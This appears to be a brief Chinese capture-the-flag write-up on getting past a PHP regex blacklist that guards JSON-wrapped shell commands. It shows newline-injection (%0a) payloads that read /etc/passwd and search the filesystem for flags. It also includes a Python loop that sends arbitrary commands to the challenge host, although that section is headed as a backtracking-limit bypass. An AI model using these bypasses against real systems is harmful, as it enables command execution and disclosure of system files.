

```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias...|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
## **%0a绕过**

```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/bin/find%20/%20-name%20flag*"}%0a%0a
```


^
## **回溯次数超限绕过**
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:")
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)
```